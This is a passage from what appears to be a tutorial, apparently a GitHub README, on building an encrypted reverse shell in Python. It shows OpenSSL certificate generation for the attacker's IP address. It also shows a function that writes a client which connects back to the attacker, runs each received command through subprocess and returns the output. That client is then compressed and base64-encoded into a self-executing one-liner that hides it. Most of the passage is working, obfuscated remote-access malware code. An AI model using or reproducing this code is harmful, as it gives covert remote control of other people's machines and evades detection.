 ```python
[ v3_req ]
subjectAltName = @alt_names

[ alt_names ]
IP.1 = {ip_address}
""")
```
The configuration file ensures the certificate is valid for the provided IP address using the <span style="border: 1px solid black; padding: 2px;">Subject Alternative Name (SAN).</span>
```python
    run([
        "openssl", "req", "-new", "-x509",
        "-key", private_key_path,
        "-out", cert_path,
        "-days", "365",
        "-config", openssl_config
    ], check=True)
    print("[*] OpenSSL: Certificate generated successfully.")

```

### **4. Generating Client Code**
The generate_and_compress_client_code function dynamically creates a reverse shell client script and compresses it into a one-liner.

```python
def generate_and_compress_client_code(ip, port):
    certfile = os.path.join("keys", "server.crt")
    with open(certfile, "r") as f:
        cert_content = f.read()

    client_code = f"""
import socket, ssl, subprocess
CERT=\"\"\"{cert_content}\"\"\"
def connect():
    context=ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
    context.load_verify_locations(cadata=CERT)
    with socket.create_connection(("{ip}", {port})) as sock:
        with context.wrap_socket(sock, server_hostname="{ip}") as ssock:
            while True:
                cmd=ssock.recv(8192).decode()
                if cmd.lower()=="exit":break
                output=subprocess.getoutput(cmd)
                ssock.sendall(output.encode())
connect()
"""
```
**Compressing and encoding the client code:**

```python
    compressed_code = zlib.compress(client_code.encode())
    encoded_code = base64.b64encode(compressed_code).decode()
    return f"import zlib,base64;exec(zlib.decompress(base64.b64decode('{encoded_code}')))"

```
### **5. Starting the Server**
